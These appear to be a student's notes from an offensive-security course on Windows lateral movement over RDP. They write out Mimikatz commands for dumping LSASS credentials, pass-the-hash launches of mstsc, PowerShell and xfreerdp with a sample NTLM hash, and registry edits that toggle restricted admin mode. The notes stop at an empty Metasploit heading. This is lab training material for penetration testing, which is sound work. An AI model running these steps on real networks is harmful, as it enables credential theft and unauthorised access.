

# Windows lateral movement

Psexec, WMI, DCOM, PSRemoting are the normal pathways to use stolen credentials

We will look at RDP and PsExec techniques

# Remote Desktop Protocol

Multi channel network protocol devveloped by Microsoft and is used for comunication between terminal servers and their clients.

It is commonly used in many corporate environments for remote administration using windows native remote Desktop connection application

# lateral ovement with rdp

using rdektop in kali machine we will run mstsc.exe
and connect to appsrv01

> how is this going to happen in real time?


### caution

Connecting to a workstation with Remote Desktop will disconnect any existing
session. 
> The /admin flag allows us to connect to the admin session, which does not disconnect the current user if we perform the login with the same user.

using mimikatz to get the cached credentials

`privilege::debug`
`!+`
`!processprotect /process:lsass.exe /remove`
`sekurlsa::logonpasswords`

RD with restricted admin mode which allows sysadmin  to network logging with  as that user

Since we used restricted admin mode, no credentials have been cached, which helps mitigate
credential theft.
Restricted admin mode is disabled by default but the setting can be controlled through the
DisableRestrictedAdmin registry entry at the following path

`HKLM:\System\CurrentControlSet\Control\Lsa`

We will assume that we are already in possession of the admin user NTLM hash and are logged in
to the Windows 10 client as the dave user. We can then run mimikatz from an administrative
console and use the pth command to launch a mstsc.exe process in the context of the admin
user:

`privilege::debug`
`sekurlsa::pth /user:admin /domain:corpl /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"`

Even though we opened a session as admin, the dialog suggests we are
authenticating as dave. This error stems from passing the hash with Mimikatz

To demonstrate this, we will first disable the restricted admin mode on our appsrv01 target. We’ll
do this from the RDP session as the admin user we just created by executing the PowerShell
command in Listing 606.

```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name
DisableRestrictedAdmin
```

With restricted admin mode disabled, we’ll verify that we indeed can no longer log in by first
logging out of the RDP session on appsrv01 and immediately relaunching it from Mimikatz.




At this point, we are able to fully demonstrate our lateral movement. To re-enable restricted
admin mode, we are going to first launch a local instance of PowerShell on the Windows 10
machine in the context of the admin user with Mimikatz.

```
sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```

From this PowerShell prompt, we’ll use the Enter-PSSession cmdlet and supply the appsrv01
hostname as the -Computer argument. This will provide us with shell access to our target
machine.

```
Enter-PSSession -Computer appsrv01
New-ItemProperty -Path
"HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
Exit

```

The restricted admin mode setting is updated instantly and we can once again use it to gain
access to the target.
It is worth noting that the xfreerdp RDP client,788 which is installed on a Kali system by default,
supports restricted remote admin connections as well.
We can demonstrate the previous example with the command shown in Listing 609. Keep in mind
that the target RDP port must be reachable from our Kali attacking machine.

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6
/cert-ignore
```

### 13.1.1.1 Exercises
1. Log in to the Windows 10 client as the offsec domain user. Use Mimikatz to pass the hash
and create an mstsc process with restricted admin enabled in the context of the dave user.
2. Repeat the steps to disable restricted admin mode and then re-enable it as part of the attack
through PowerShell remoting.

# Reverse RDP Proxying with Metasploit


